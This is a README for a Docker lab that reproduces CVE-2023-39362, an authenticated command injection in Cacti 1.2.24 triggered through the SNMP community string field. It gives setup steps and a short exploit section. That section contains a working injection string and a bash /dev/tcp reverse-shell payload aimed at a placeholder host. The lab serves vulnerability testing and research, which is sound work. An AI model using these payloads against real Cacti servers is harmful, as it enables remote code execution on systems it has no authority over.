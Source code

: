 # Cacti v1.2.24 authenticated command injection (CVE-2023-39362) vulnerable application

This is a vulnerable application to test the exploit for the **Cacti** vulnerability (**CVE-2023-39362**).

## WARNING!

**This application contains serious security vulnerabilities. Run it at your own risk! It is recommended using a backed-up and sheltered environment (such as a VM with a recent snapshot and host-only networking). Do not upload this application to any Internet facing servers, as they will be compromised.**

***DISCLAIMER*: I do not take responsibility for the way in which any one uses this application. The only purpose of this application is to be a test scenario for the CVE-2023-39362 exploit and it should not be used maliciously. If your server is compromised via an installation of this application it is not my responsibility, it is the responsibility of the person(s) who uploaded and installed it.**

## Vulnerability info

* **CVE-ID**: CVE-2023-39362
* **Link**: [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-39362](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-39362)
* **Description**: In Cacti 1.2.24, under certain conditions, an authenticated privileged user, can use a malicious string in the SNMP options of a Device, performing command injection and obtaining remote code execution on the underlying server.

## Usage

Here the steps to **setup** the environment:
1. Launch `docker compose up -d` to start composition.
2. You can finalize the steps by browsing to [http://127.0.0.1/cacti](http://127.0.0.1/cacti) to start the Cacti initialization wizard. If you get an error referring to the database, just wait a little bit and refresh the page.
3. Default credentials are `admin`/`admin`.
4. Press "*Next*" to all the buttons during the wizard, choosing options accordingly. All the defaults should be fine and all the mandatory prerequisites should be satisfied.
5. After the installation, login as the `admin`.
6. Go to "*Console*" > "*Configuration*" > "*User*".
7. Click on the `guest` user.
8. "*Enable*" it, set a password, disable the "*Must Change Password at Next Login*" if you want.
9. Click on the "*Save*" button.
10. Go to the "*Permissions*" section.
11. Under "*General Administration*", enable "*Console Access*" and "*Sites/Devices/Data*".
12. Click on the "*Save*" button.
13. Logout and re-login as `guest` to try the exploit.

The container will be called `vuln-cacti`.

The hostname for a test SNMP device is `monitored_snmp_device`.

To **teardown** the environment use `docker compose down` command.

The official installation guide of Cacti can be found [here](https://docs.cacti.net/README.md#cacti-installation).

## Root cause

A detailed root cause of the vulnerability is available in the [original security advisory](https://github.com/Cacti/cacti/security/advisories/GHSA-g6ff-58cj-x3cp) or in [my blog post](https://m3ssap0.github.io/2023/07/04/cacti-authenticated-command-injection-snmp.html).

## Exploit

(This is *only one possible* exploit)

1. Go to "*Console*" > "*Create*" > "*New Device*".
2. Create a Device that supports SNMP version 1 or 2.
3. Ensure that the Device has Graphs with one or more templates of:
    * "*Net-SNMP - Combined SCSI Disk Bytes*"
    * "*Net-SNMP - Combined SCSI Disk I/O*"
    * (Creating the Device from the template "*Net-SNMP Device*" will satisfy the Graphs prerequisite)
4. In the "*SNMP Options*", for the "*SNMP Community String*" field, use a value like this: `public\' ; touch /tmp/m3ssap0 ; \'`.
5. Click the "*Create*" button.
6. Check under `/tmp` the presence of the created file.

To obtain a reverse shell, a payload like the following can be used.
```
public\' ; bash -c "exec bash -i &>/dev/tcp/<host>/<port> <&1" ; \'
```

## Authors

* **Antonio Francesco Sardella** - *vulnerability reporter* - [m3ssap0](https://github.com/m3ssap0)

## License

This project is licensed under the Unlicense - see the **LICENSE** file for details.
